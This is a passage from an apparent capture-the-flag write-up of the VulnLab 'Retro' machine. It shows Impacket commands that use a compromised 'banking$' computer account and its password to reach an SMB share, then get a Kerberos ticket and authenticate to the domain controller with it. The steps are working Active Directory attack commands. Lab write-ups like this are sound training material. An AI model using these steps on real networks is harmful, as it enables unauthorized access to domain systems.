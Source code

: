 ![image.png](image%2018.png)

Now, using the Impacket smbclient tool, we were able to log into the SMB share with the `banking$` computer account.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient retro.vl/banking\$:'hacker@123'@10.10.71.93
```

![image.png](image%2019.png)

<aside>
✅ *We can execute the attack first, getting a Ticket (TGT), and then log into the Domain Controller (`dc.retro.vl`) using the ticket generated instead of the password. Doing it that way, we do not have to change the actual password for the computer account in order to use it.*
`   th3g3ntl3m4n   ~/vulnlab/retro  getTGT.py retro.vl/banking\$:'hacker@123'
   th3g3ntl3m4n   ~/vulnlab/retro  export KRB5CCNAME=banking\$.ccache
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient -k -no-pass retro.vl/banking\$@dc.retro.vl`

![image.png](image%2020.png)
